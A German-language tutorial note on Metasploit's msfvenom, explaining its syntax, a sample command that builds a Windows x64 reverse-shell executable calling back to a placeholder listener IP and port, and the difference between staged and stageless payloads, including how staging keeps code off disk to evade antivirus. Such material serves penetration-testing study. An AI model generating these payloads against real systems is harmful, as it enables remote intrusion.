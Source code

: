 
# Generelle Infos 
*Der "einmal hin alles drin" Payload laden*

msfvenom ist Teil des Metasploit-Frameworks und wird verwendet, um Code für Reverse- und Bind-Shells zu generieren. Es wird häufig bei der Entwicklung von Exploits auf niedrigerer Ebene verwendet, um hexadezimalen Shellcode zu generieren, wenn z. B. ein Pufferüberlauf-Exploit entwickelt wird; es kann jedoch auch verwendet werden, um Payloads in verschiedenen Formaten zu generieren (z. B. .exe, .aspx, .war, .py)

Standard Syntax

```
msfvenom -p <Payload> <Options>
```

Beispiel anhand einer Windows x64 TCP Reverse shell

```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
Erklärung der Optionen:
-f <Format>
	 -> Spezifiziert den output hier auf eine *.exe
-o <file>
	-> Die Output Location und den Dateinamen der Generierten Payload
LHOST=<ip>
	-> Spezifiziert die IP für das Call Back der Reverse shell
LPORT=<port>
	-> Spezifiziert den Call back port meistens bei Metasploit 4444

# Staged und Stageless

Generell werden Payloads in zwei Konzepte unterteilt Staged und Stageless reverse shell payloads

### Staged

Gestufte Payloads werden in zwei Teilen gesendet. Der erste Teil wird als Stager bezeichnet. Dabei handelt es sich um einen Teil des Codes, der direkt auf dem Server selbst ausgeführt wird. Er stellt eine Verbindung zu einem wartenden Listener her, enthält aber selbst keinen Reverse-Shell-Code. Stattdessen verbindet er sich mit dem Listener und nutzt die Verbindung, um die eigentliche Payload zu laden, sie direkt auszuführen und zu verhindern, dass sie auf die Festplatte gelangt, wo sie von herkömmlichen Antivirenlösungen abgefangen werden könnte. So wird die Payload in zwei Teile aufgeteilt - einen kleinen anfänglichen Stager und dann den umfangreicheren Reverse-Shell-Code, der heruntergeladen wird, wenn der Stager aktiviert wird. Staged Payloads erfordern einen speziellen Listener - normalerweise den Metasploit Multi/Handler

### Stageless

Stagless Payloads sind gebräuchlicher - diese haben wir bis jetzt verwendet. Sie sind völlig eigenständig, da es nur ein Stück Code gibt, das bei Ausführung sofort eine Shell an den wartenden Hörer zurückschickt.


